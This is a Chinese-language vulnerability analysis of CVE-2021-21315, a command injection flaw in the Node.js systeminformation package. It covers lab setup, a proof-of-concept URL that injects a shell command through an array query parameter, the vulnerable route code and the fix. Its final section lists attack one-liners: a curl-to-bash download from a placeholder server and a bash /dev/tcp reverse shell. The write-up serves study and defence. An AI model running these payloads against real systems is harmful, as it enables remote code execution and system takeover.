


# CVE-2021-21315漏洞分析

Author: H3rmesk1t

Data: 2022.05.16

# 漏洞信息
```
The System Information Library for Node.JS (npm package "systeminformation") is an open source collection of functions to retrieve detailed hardware, system and OS information. In systeminformation before version 5.3.1 there is a command injection vulnerability. Problem was fixed in version 5.3.1. As a workaround instead of upgrading, be sure to check or sanitize service parameters that are passed to si.inetLatency(), si.inetChecksite(), si.services(), si.processLoad() ... do only allow strings, reject any arrays. String sanitation works as expected.
```

<div align=center></div>

# 漏洞复现
先下载受影响的`Node.js`, 这里使用的是`v12.18.4`.

```bash
wget https://nodejs.org/dist/v12.18.4/node-v12.18.4-linux-x64.tar.xz

tar -xvf node-v12.18.4-linux-x64.tar.xz
```

<div align=center></div>

并更换文件名字为`nodejs`, 将该文件移至`/usr/local/sbin/`目录下.

```bash
mv node-v12.18.4-linux-x64 nodejs
sudo mv nodejs/ /usr/local/sbin/
```

<div align=center></div>

接着更换文件`node`和`npm`的软连接, 运行`node.js`查看配置是否成功.

```bash
sudo ln -s /usr/local/sbin/nodejs/bin/node /usr/local/bin/
sudo ln -s /usr/local/sbin/nodejs/bin/npm /usr/local/bin/
```

<div align=center></div>

下载对应的[漏洞环境](https://github.91chi.fun/https://github.com/H3rmesk1t/CVE-2021-21315-ENV.git), 并运行`index.js`文件.

<div align=center></div>

执行`PoC`:

```
http://192.168.249.143:8000/api/getServices?name[]=$(echo 'whoami' > exp.sh)
```

<div align=center></div>

<div align=center></div>

# 漏洞分析
漏洞核心代码:

```javascript
app.get('/api/getServices', (req, res) => {
  const queryData = req.query.name
  
  si.services(queryData).then((data) => { 
  res.json(data);
  });
 
});
```

从修复代码种不难看出, 在调用进一步的命令之前, 会对参数进行清理, 以检查它们是否为字符串数据类型, 并额外检查该参数在任何时候是否发生过原型污染. 而在修复前的代码中是不存在该操作的, 攻击者可以利用数组的形式, 在未经过滤的参数中注入`Payload`来执行系统命令. 在安全公告中也提到, 一定要检查或清理传递给`si.inetLatency()`、`si.inetChecksite()`、`si.services()`、`si.processLoad()`等的服务参数, 只允许字符串, 拒绝任何数组.

<div align=center></div>

# 漏洞利用

`systeminformation`中代码注入漏洞的存在意味着攻击者可以通过在组件使用的未初始化参数内小心翼翼地注入有效载荷来执行系统命令, 例如:
 - 上传内部文件: 例如, `index.js`或其他文件.
 - 下载并执行脚本`curl -s http://server/path/exp.sh | bash /dev/stdin arg1 arg2`.
 - 反向`shell`: `bash -i >& /dev/tcp/ip/port 0>&1`.
 - ......